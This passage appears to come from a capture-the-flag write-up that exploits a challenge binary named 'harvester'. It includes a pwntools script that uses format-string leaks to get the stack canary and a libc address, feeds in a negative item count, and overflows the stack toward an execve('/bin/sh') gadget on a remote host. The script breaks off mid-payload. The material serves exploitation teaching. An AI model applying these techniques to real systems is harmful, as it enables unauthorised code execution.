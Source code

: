 ### Run

This simply exits the binary. 

### Exploitation

We have everything we need to exploit the binary: 

1. Use Fight to leak the stack canary and a libc address. Calculate libc's base address and get the offset of a `execve("/bin/sh")` gadget using the `one_gadget` tool. 
1. Use Inventory to drop -11 pies to get the 22 pies needed to enter the vulnerable code branch in Stare. 
1. Use Stare and send a large enough payload that overwrites the stack canary with the leaked canary, and overwrites the saved return pointer to return to the `execve()` gadget. 

Here's the final exploit: 

```
#!/usr/bin/env python3

from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("harvester")
libc = ELF("libc.so.6")

r = remote("165.227.232.115", 30465)

# Use Fight to leak stack canary at position 11
r.recvuntil("> ")
r.sendline("1")
r.recvuntil("> ")
r.sendline("%11$p")
r.recvuntil("is: ")
canary = r.recvuntil("\n")[:18].decode("utf-8")
print("leaked stack canary:", canary)

# Use Fight to leak a libc address at position 21
r.sendline("1")
r.recvuntil("> ")
r.sendline("%21$p")                             # leaks __libc_start_main+231
r.recvuntil("is: ")
libc_leak = r.recvuntil("\n")[:14].decode("utf-8")
print("leaked libc address:", libc_leak)

libc.address = int(libc_leak, 16) - 138231      # offset of __libc_start_main+231
print(f"libc base: 0x{libc.address:2x}")

# Use Inventory to increase pies to 21
r.sendline("2")
r.recvuntil("> ")
r.sendline("y")
r.recvuntil("> ")
r.sendline("-11")                               # drop -11 pies
r.recvuntil("> ")

# Use Stare to exploit buffer overflow
r.sendline("3")
r.recvuntil("> ")

execve_gadget = libc.address + 0x4f3d5          # execve() gadget offset

buf  = b"A"*40
buf += p64(int(canary, 16))                     # preserve stack canary
buf += p64(0x0)                                 # padding
```
